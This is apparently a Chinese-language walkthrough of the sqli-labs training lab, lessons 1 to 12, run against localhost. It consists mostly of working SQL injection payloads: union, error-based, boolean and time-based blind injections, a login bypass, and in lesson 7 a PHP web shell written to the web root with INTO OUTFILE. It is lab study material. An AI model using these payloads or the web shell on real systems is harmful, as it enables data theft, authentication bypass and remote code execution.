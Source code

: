 
## Page 1

### Lesson 1

随手加个单引号试试：
```
http://localhost:81/Less-1/?id=-1'
```

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''-1'' LIMIT 0,1' at line 1
```

注意观察 -1 后面有两个单引号，去掉我们自己加的一个，说明变量是用一个单引号包裹的

那么直接构造就好了
```
http://localhost:81/Less-1/?id=-1' union select 1, user(), '3
```

### Lesson 2

同样的思路
```
http://localhost:81/Less-2/?id=-1 union select 1, user(), 3
```

### Lesson 3

```
http://localhost:81/Less-3/?id=-1') union select 1, user(), ('2
```

### Lesson 4

```
http://localhost:81/Less-4/?id=-1") union select 1, user(), ("2
```

### Lesson 5

报错注入：
```
http://localhost:81/Less-5/?id=-1' union select updatexml(1, concat(0x7e, (select user()), 0x7e), 1), 2, '3
```

### Lesson 6

```
http://localhost:81/Less-6/?id=1" union select updatexml(1, concat(0x7e, (select user()), 0x7e), 1), 2, "3
```

### Lesson 7

```
http://localhost:81/Less-7/?id=1')) union select 1, 2, "<?php eval($_GET['x']) ?>" into outfile '/var/www/html/shell.php' --+
```

写入权限不足，可能是因为 docker 打包导致的？

### Lesson 8

构造布尔表达式
```
http://localhost:81/Less-8/?id=1' and (select database() = 'security') and '1'='1
```

### Lesson 9

构造布尔表达式，基于时间的盲注
```
http://localhost:81/Less-9/?id=1' and substr((select database()), 1, 1) = 's' and sleep(3) and '1'='1
```

### Lesson 10

```
http://localhost:81/Less-10/?id=1" and substr((select database()), 1, 1) = 's' and sleep(3) and "1" = "1
```

### Lesson 11

```
passwd=admin' or '1'='1&submit=Submit&uname=admin
```

```
passwd=none' union select database(), '2&submit=Submit&uname=admin
```

### Lesson 12

```
passwd=none") or 1=("1&submit=Submit&uname=admin
```

```
passwd=none") union select database(), ("2&submit=Submit&uname=admin
```
